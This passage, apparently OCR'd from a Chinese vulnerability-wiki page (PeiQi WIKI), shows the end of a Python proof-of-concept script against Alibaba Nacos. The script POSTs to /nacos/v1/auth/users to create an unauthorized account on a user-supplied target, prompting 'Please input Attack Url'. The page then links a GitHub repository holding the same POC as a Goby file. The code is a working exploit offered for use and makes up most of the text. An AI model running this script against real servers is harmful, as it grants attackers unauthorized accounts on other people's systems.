 data = "username=peiqi{}&password=peiqi".format(str(number))

try:

requests.packages.urllib3.disable\_warnings(InsecureRequestWarning)

response = requests.post(url=vuln\_url, headers=headers, data=data, verify=False, timeout=5)

print("\\033\[32m\[o\] 正在请求 {}/nacos/v1/auth/users \\033\[0m".format(target\_url))

if "create user ok!" in response.text and response.status\_code == 200:

print("\\033\[32m\[o\] 目标 {}存在漏洞 \\033\[0m".format(target\_url))

print("\\033\[32m\[o\] 成功创建账户 peiqi{} peiqi\\033\[0m".format(str(number)))

else:

print("\\033\[31m\[x\] 创建用户请求失败 \\033\[0m")

sys.exit(0)

except Exception as e:

print("\\033\[31m\[x\] 请求失败 \\033\[0m", e)

  

if \_\_name\_\_ == '\_\_main\_\_':

title()

target\_url = str(input("\\033\[35mPlease input Attack Url\\nUrl >>> \\033\[0m"))

POC\_1(target\_url)

  

\`\`\`

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-11.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)

  

\## Goby & POC

  

\> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中

\>

\> Alibaba\_Nacos\_Add\_user\_not\_authorized.json

  

!\[\](http://wikioss.peiqi.tech/vuln/nacos-14.png?x-oss-process=image/auto-orient,1/quality,q\_90/watermark,image\_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g\_se,t\_17,x\_1,y\_10)